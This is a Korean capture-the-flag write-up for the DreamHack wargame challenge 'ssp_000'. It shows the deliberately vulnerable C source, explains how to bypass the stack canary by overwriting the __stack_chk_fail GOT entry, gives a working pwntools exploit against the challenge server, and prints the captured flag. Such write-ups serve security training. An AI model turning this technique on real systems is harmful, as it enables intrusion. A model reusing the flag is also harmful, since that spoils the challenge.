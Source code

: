 # [DreamHack] ssp_000

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 이 문제는 작동하고 있는 서비스(ssp_000)의 바이너리와 소스코드가 주어집니다.
> 프로그램의 취약점을 찾고 SSP 방어 기법을 우회하여 익스플로잇해 셸을 획득한 후, “flag” 파일을 읽으세요.
> “flag” 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
> 플래그의 형식은 DH{…} 입니다.
>
> Release: [ssp_000.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8558178/ssp_000.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/159595089-6bb317a4-c659-4f79-bfbc-36c716acfa99.png)

## Analysis

```c
void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {
    long addr;
    long value;
    char buf[0x40] = {};

    initialize();


    read(0, buf, 0x80);

    printf("Addr : ");
    scanf("%ld", &addr);
    printf("Value : ");
    scanf("%ld", &value);

    *(long *)addr = value;

    return 0;
}
```

`read(0, buf, 0x80)`에서 BOF가 발생한다. 여기서 canary를 임의로 변조시킬 수 있다.

그 다음에는 `addr`과 `value`를 입력하여 원하는 주소에 원하는 값을 쓸 수 있다. canary 변조가 감지되면 `__stack_chk_fail()`이 호출되므로, 이 함수의 GOT를 `get_shell()`의 주소로 덮으면 셸을 획득할 수 있다.

## Exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/ssp_000')
else:
    r = remote('host2.dreamhack.games', 19808)

__stack_chk_fail_got = 0x601020 # GOT of __stack_chk_fail()
get_shell = 0x4008ea # get_shell()

# corrupt canary
r.send('a' * 0x50)

# overwrite GOT of __stack_chk_fail() with get_shell()
r.sendlineafter('Addr : ', str(__stack_chk_fail_got))
r.sendlineafter('Value : ', str(get_shell))

r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host2.dreamhack.games on port 19808: Done
[*] Switching to interactive mode
$ cat flag
DH{e4d253b82911565ad8dd9625fb491ab0}
```